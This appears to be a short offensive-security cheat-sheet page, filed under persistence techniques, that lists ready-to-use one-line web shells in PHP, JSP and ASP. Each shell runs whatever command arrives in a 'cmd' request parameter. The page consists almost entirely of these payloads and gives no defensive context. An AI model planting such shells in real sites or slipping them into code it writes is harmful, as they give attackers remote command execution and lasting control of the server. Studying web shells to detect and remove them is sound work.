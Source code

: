 ```yaml
---
description: >-
  Webshells
title: WebShells              # Add title here
date: 2023-01-02 08:00:00 -0600                           # Change the date to match completion date
categories: [07 Persistence, Webshells]                     # Change Templates to Writeup
tags: [persistence, webshell]     # TAG names should always be lowercase; replace template with writeup, and add relevant tags
show_image_post: false                                    # Change this to true
#image: /assets/img/machine-0-infocard.png                # Add infocard image here for post preview image
---
```


### PHP WEBSHELL
```php
<?php system($_REQUEST["cmd"]); ?>
```
### JSP WEBSHELL
```jsp
<% Runtime.getRuntime().exec(request.getParameter("cmd")); %>
```
### ASP WEBSHELL
```asp
<% eval request("cmd") %>
```